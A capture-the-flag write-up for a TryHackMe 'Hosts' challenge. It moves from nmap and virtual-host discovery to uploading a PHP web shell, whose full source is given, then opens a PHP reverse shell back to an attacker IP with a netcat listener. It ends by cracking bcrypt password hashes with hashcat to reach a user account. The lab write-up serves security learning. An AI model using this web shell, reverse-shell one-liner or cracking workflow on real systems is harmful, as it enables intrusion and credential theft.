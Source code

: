 # Hosts - User
Difficulty: Medium

https://tryhackme.com/jr/goosectfhosts

Since this was a tryhackme challenge, had to set up the tryhackme vpn first.
Running an nmap on the host machine reveals two ports:

```sh
┌──(pg㉿pg)-[~]
└─$ nmap -sVV 10.10.243.155
Starting Nmap 7.95 ( https://nmap.org ) at 2025-05-11 20:13 IST
Nmap scan report for sites.hosts.wcss (10.10.243.155)
Host is up (0.17s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.2p1 Debian 2+deb12u3 (protocol 2.0)
80/tcp open  http    nginx 1.22.1
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 10.42 seconds
```
Trying to ssh didn't return anything.
Visited 10.10.243.155 -> Redirected to hosts.wcss
Added `hosts.wcss 10.10.243.155` to the `/etc/hosts`
Running `curl hosts.wcss` gave:
```
┌──(pg㉿pg)-[~]
└─$ curl hosts.wcss
<!DOCTYPE html>
<html lang="en">
  <head>
                <meta charset="UTF-8">
    <link rel="stylesheet" href="https://cdn.jsdelivr.net/npm/bootstrap@4.1.3/dist/css/bootstrap.min.css"
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <meta http-equiv="X-UA-Compatible" content="ie=edge">
                <title>Hosts</title>
                <style>
                        .bg {
                                background-image: url('https://cdn.pixabay.com/photo/2016/11/29/05/45/astronomy-1867616_960_720.jpg');
                                background-size: cover;
                                background-repeat: no-repeat;
                                background-attachment: fixed;
                                background-position: center;
                                height: 100vh;
                                color: white;
                                text-align: center;
                                display: flex;
                                justify-content: center;
                                align-items: center;
                                font: 300 18px/18px Roboto, sans-serif;
                        }
                        .container {
                                background-color: rgba(0, 0, 0, 0.5);
                                padding: 20px;
                                border-radius: 10px;
                        }
                </style>
  </head>
        <body class="bg">
<div class="container">
<h1>Welcome to Hosts</h1>
<p>We provide the hosting. You provide the content.</p>
<p>Get started by creating an account.</p>
<a href="http://panel.hosts.wcss">Access the panel</a>
</div>
</body>
</html>
```
Added panel.hosts.wcss to the hosts now.
```
┌──(pg㉿pg)-[~]
└─$ curl panel.hosts.wcss
<!DOCTYPE html>
<html lang="en">
  <head>
    <meta charset="UTF-8">
    <link rel="stylesheet" href="https://cdn.jsdelivr.net/npm/bootstrap@4.1.3/dist/css/bootstrap.min.css">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <meta http-equiv="X-UA-Compatible" content="ie=edge">
    <title>Hosts - Home</title>
    <style>
      body.bg {
        background-color: #343a40;
        display: flex;
        justify-content: center;
        align-items: center;
        height: 100vh;
        color: #ffffff;
      }
      .container {
        max-width: 600px;
        padding: 20px;
        background-color: #495057;
        box-shadow: 0 0 10px rgba(0, 0, 0, 0.1);
        border-radius: 8px;
        text-align: center;
      }
      .btn-primary {
        width: 100%;
        background-color: #007bff;
        border: none;
        margin-top: 20px;
      }
      svg {
        width: 100px;
        height: 100px;
        margin-bottom: 20px;
      }
    </style>
  </head>
  <body class="bg">
    <div class="container">
      <svg xmlns="http://www.w3.org/2000/svg" fill="currentColor" class="bi bi-cloud-upload" viewBox="0 0 16 16">
        <path fill-rule="evenodd" d="M8 0a5.53 5.53 0 0 0-4.473 2.11A5.53 5.53 0 0 0 0 6.5C0 8.985 1.79 11 4 11h1v1H4a1 1 0 0 0 0 2h8a1 1 0 0 0 0-2h-1v-1h1c2.21 0 4-2.015 4-4.5a5.53 5.53 0 0 0-3.527-4.39A5.53 5.53 0 0 0 8 0zM4.5 7.5a.5.5 0 0 1 .5-.5h2V4.5a.5.5 0 0 1 1 0v2.5h2a.5.5 0 0 1 0 1h-2v2.5a.5.5 0 0 1-1 0V8.5h-2a.5.5 0 0 1-.5-.5z"/>
      </svg>
      <a href="/home" class="btn btn-primary">Access Panel</a>
    </div>
  </body>
</html>
```

Clicking on the Access Panel button reveals the following page:
![alt text](img1.png)

Clicked on the register button:
![alt text](img2.png)

Signed up with the creds admin admin
Then logged in with the same creds.
![alt text](img3.png)

Presented with an upload page:
![alt text](img4.png)

Final hosts file: 

```
machin_ip sites.hosts.wcss
machin_ip admin.sites.hosts.wcss
machin_ip  panel.hosts.wcss
machin_ip  hosts.wcss
```
After some enumeration, figured out we can upload php also and it will execute it.

Created the following php reverse shell script:

```php
<!DOCTYPE html>
<html>
<head>
  <title>Web Shell</title>
  <style>
    body { background-color: #121212; color: #eee; font-family: monospace; padding: 20px; }
    input, button { padding: 5px; background: #333; color: #eee; border: 1px solid #555; }
    textarea { width: 100%; height: 300px; background: #000; color: #0f0; padding: 10px; border: none; resize: vertical; }
  </style>
</head>
<body>
  <h2>PHP Web Shell</h2>
  <form method="POST">
    <input type="text" name="cmd" placeholder="Enter command" style="width: 80%;">
    <button type="submit">Run</button>
  </form>
  <textarea readonly><?php
    if (isset($_POST['cmd'])) {
      echo htmlspecialchars(shell_exec($_POST['cmd']));
    }
  ?></textarea>
</body>
</html>
```


Started a local nc server: `nc -lvnp 4444`

Executed the following command to get the reverse shell on the /upload/test/php: `php -r '$sock=fsockopen("10.17.57.229",4444);exec("/bin/bash -i <&3 >&3 2>&3");'`

Received the reverse connection on localhost.
```
Ncat: Version 5.59BETA1 ( http://nmap.org/ncat )
Ncat: Listening on 0.0.0.0:4444
Ncat: Connection from 10.10.243.155:48568.
bash: cannot set terminal process group (578): Inappropriate ioctl for device
bash: no job control in this shell
www-data@hosts:~/html/sites/admin$ ls
ls
mal.html
shell.php
test.php
```

After some enumerating, found the following interesting files:
```
cd /home/cpanel
ls -la
total 28
drwxr-xr-x 2 cpanel cpanel 4096 May 11 11:13 .
drwxr-xr-x 4 root   root   4096 Dec 25 21:27 ..
lrwxrwxrwx 1 root   root      9 Dec 25 21:27 .bash_history -> /dev/null
-rw-r--r-- 1 cpanel cpanel  220 Apr 23  2023 .bash_logout
-rw-r--r-- 1 cpanel cpanel 3526 Apr 23  2023 .bashrc
-rw-r--r-- 1 cpanel cpanel  807 Apr 23  2023 .profile
-rw-r--r-- 1 cpanel cpanel   66 May 11 11:13 users.txt
-rw-r--r-- 1 cpanel cpanel   67 Dec 25 21:54 users.txt.backup
cat users.txt
admin,$2a$10$dchhYXk0ZEmhTrQ8BuwaGueH9T0SBBr6Ck.hcQ7rp4YVZtUduxO3y
cat users.txt.backup
graham,$2a$10$13ywSDSq/rfC2pDfjV3EJ.LCp3N57zlGtIXyWOy3uJ3E16160CQYS
```

These could be the bcrypt hashes of the password of the users.

Running hashcat on them with rockyou:
```
hashcat -m 3200 hash.txt /usr/share/wordlists/rockyou.txt
```

![alt text](img5.png)

Got the following passwords:  
admin: admin
graham: spiderman1

In the shell then I ran:
```
su graham
```
and entered the password.

And got the access as graham.

Then I got access to the graham's folder:
```
cd home
ls
cpanel
graham
cd graham
ls
user.txt
cat user.txt
GooseCTF{315438XXXXXXXXXX3d0a}
```
